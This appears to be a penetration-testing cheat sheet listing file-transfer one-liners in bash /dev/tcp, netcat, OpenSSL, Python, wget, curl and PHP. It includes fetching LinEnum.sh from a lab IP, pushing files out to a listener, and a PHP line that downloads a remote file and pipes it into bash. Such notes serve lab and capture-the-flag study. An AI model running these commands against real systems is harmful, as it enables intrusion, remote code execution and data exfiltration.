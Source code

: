 ## Bash

```bash
# Connect to Target's Webserver
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

Print the Response
cat <&3
```

## Bash (TCP)

```bash
cat < <file> > /dev/tcp/<ip>/<port>

# Escucha
nc -nlvp <port> > <file>
```

## OpenSSL


```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up server
openssl s_server -quiet -accept <port> -cert certificate.pem -key key.pem < <file>

# Download file
openssl s_client -connect <ip>:<port> -quiet > <file>
```

Download file


## Python 3

```python
~ python3
>> import urllib.request
>> urllib.request.urlretrieve("http://<ip>/<file>", "<output>")
````

## Python 2

```python
~ python3
>> import urllib
>> urllib.urlretrieve ("http://<ip>/<file>", "<output>")
````

## Wget

```bash
wget http://<ip>/<file> 
wget http://<ip>/<file> -O <file>
```

## Curl

```bash
curl -o <output> http://<ip>/<file>
```

## PHP

### File_get_contents()

```bash
php -r '$file = file_get_contents("<ip>/<file>"); file_put_contents("<file>",$file);'
```

### Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<ip>/<file>", "rb"); $flocal = fopen("<output>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### Php curl

```bash
php -r '$rfile = "http://<ip>/<file>"; $lfile = "<output>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
```

```bash
 php -r '$lines = @file("http://<ip>/<file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
